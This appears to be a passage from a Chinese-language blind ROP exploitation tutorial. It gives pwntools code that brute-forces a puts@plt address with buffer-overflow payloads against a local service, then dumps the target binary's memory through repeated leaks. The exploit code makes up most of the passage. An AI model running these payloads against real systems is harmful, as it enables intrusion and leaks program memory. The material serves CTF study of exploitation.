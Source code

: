 ```
#注释头
 
def get_puts_addr(buf_size, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil('password?\n')
        payload = 'A' * buf_size + p64(rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget)
        #call put to print the head of ELF.
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print("find puts@plt addr: 0x%x"%addr)
                return addr
            sh.close()
            addr += 1
        except EOFError as e:
            sh.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

```

这里实际上找出来的地址并不是 puts 函数的 plt 表地址，而是在 puts 的 plt 表前面一点的内容，但是这一小段内容不影响栈和 rdi 寄存器，所以没什么影响。

6. 利用 puts 函数和 pop rdi;ret 来 dump 二进制文件：

```
#注释头
 
def dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr):
    pop_rdi = gadgets_addr + 9 # pop rdi; ret
    result = ""
    while start_addr < end_addr:
        #print result.encode('hex')
        sleep(0.1)
        payload = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(start_addr)
        payload += p64(puts_plt)
        payload += p64(stop_addr)
        try:
            sh = remote('127.0.0.1', 10001)
            sh.recvline()
            sh.sendline(payload)
            data = sh.recv(timeout=0.1) 
            #timeout makes sure to recive all bytes
            if data == "\n":#data = \x00
                data = "\x00"
            elif data[-1] == "\n":
            #data = xxxxx\n\x00,data = \n\x00,data = xxxxx\x00
                data = data[:-1]
            log.info("leaking: 0x%x --> %s" % (start_addr,(data or '').encode('hex')))
            result += data
            start_addr += len(data)
            sh.close()
        except:
            log.info("Can't connect")
    return result

```